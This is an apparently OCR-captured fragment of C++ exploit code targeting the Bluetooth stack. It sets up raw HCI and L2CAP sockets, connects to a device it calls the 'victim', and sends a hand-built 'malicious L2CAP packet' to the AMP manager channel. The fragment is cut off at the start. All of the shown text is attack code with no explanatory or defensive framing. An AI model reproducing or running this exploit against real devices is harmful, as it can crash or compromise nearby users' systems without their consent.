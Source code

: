 ```c++
  hci_filter_clear(&flt);
  hci_filter_all_ptypes(&flt);
  hci_filter_all_events(&flt);
  if (setsockopt(hci_socket, SOL_HCI, HCI_FILTER, &flt, sizeof(flt)) < 0) {
    perror("setsockopt(HCI_FILTER)");
    return 1;
  }

  int opt = 1;
  if (setsockopt(hci_socket, SOL_HCI, HCI_DATA_DIR, &opt, sizeof(opt)) < 0) {
    perror("setsockopt(HCI_DATA_DIR)");
    return 1;
  }

  printf("[*] Connecting to victim...\n");

  struct sockaddr_l2 laddr = {0};
  laddr.l2_family = AF_BLUETOOTH;
  laddr.l2_bdaddr = di.bdaddr;

  struct sockaddr_l2 raddr = {0};
  raddr.l2_family = AF_BLUETOOTH;
  raddr.l2_bdaddr = dst_addr;

  int l2_sock;

  if ((l2_sock = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_L2CAP)) < 0) {
    perror("socket");
    return 1;
  }

  if (bind(l2_sock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
    perror("bind");
    return 1;
  }

  if (connect(l2_sock, (struct sockaddr *)&raddr, sizeof(raddr)) < 0) {
    perror("connect");
    return 1;
  }

  struct l2cap_conninfo l2_conninfo;
  socklen_t l2_conninfolen = sizeof(l2_conninfo);
  if (getsockopt(l2_sock, SOL_L2CAP, L2CAP_CONNINFO, &l2_conninfo, &l2_conninfolen) < 0) {
    perror("getsockopt");
    return 1;
  }

  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  printf("[*] Sending malicious L2CAP packet...\n");
  struct {
    l2cap_hdr hdr;
    uint16_t ctrl;
    uint16_t fcs;
  } packet = {0};
  packet.hdr.len = htobs(sizeof(packet) - L2CAP_HDR_SIZE);
  packet.hdr.cid = htobs(AMP_MGR_CID);
  packet.fcs = crc16(0, &packet, sizeof(packet) - 2);
  hci_send_acl_data(hci_socket, hci_handle, &packet, sizeof(packet));

  close(l2_sock);
```